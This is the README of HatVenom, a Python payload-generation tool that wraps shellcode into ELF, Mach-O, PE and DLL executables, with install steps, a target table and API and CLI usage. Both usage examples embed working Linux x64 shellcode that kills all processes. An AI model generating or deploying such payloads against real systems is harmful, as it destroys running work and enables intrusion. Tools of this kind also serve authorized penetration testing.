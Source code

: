 # HatVenom

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/HatVenom?color=yellow">
    </a>
</p>

HatVenom is a powerful payload generation tool that provides support for all common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`, `dll`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode and inject assembly (coming soon).

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatVenom
```

## Supported targets

| Format    | **x86** | **x64** | **armle** | **armbe** | **aarch64** | **mipsle** | **mipsbe** | **mips64le** | **mips64be** |
|-----------|---------|---------|-----------|-----------|-------------|------------|------------|--------------|--------------|
| **elf**   | yes | yes | yes | no | yes | yes | yes | no | no |
| **macho** | no | yes | no | no | no | no | no | no | no |
| **pe**    | yes | yes | no | no | no | no | no | no | no |
| **dll**   | yes | yes | no | no | no | no | no | no | no |

* **elf** - Unix Executable & Linkable Format.
* **macho** - macOS / Apple iOS Mach-O executable format.
* **pe** - Windows Portable Executable format.
* **dll** - Windows Dynamic Link Library format.

## Basic functions

There are all HatVenom basic functions that can be used to generate payload, covert data, assemble code or inject shellcode.

* `generate(file_format, arch, shellcode)` - Generates payload for specified target and with specified shellcode.
* `generate_to(file_format, arch, shellcode, filename='a.out')` - Generates payload for specified target and with specified shellcode and saves it to the specified file.

## Generating payload

It's very easy to generate payload for various targets in HatVenom. Let's generate a simple payload that kills all processes for Linux and save it to `a.out`.

### Examples

```python
from hatvenom import HatVenom

shellcode = (
    "\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## HatVenom CLI

HatVenom also has their own command line interface that can be invoked by executing `hatvenom` command:

```
usage: hatvenom [-h] [-f FORMAT] [-a ARCH] [-s SHELLCODE] [-o OUTPUT]

HatVenom is a powerful payload generation and shellcode
injection tool that provides support for common platforms and architectures.

optional arguments:
  -h, --help            show this help message and exit
  -f FORMAT, --format FORMAT
                        Platform to generate for.
  -a ARCH, --arch ARCH  Architecture to generate for.
  -s SHELLCODE, --shellcode SHELLCODE
                        Shellcode to inject.
  -o OUTPUT, --output OUTPUT
                        File to output generated payload.
```

### Examples

Let's generate a simple payload that kills all processes for Linux and save it to `a.out`.

```shell
hatvenom --format elf --arch x64 --shellcode "\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05"
```
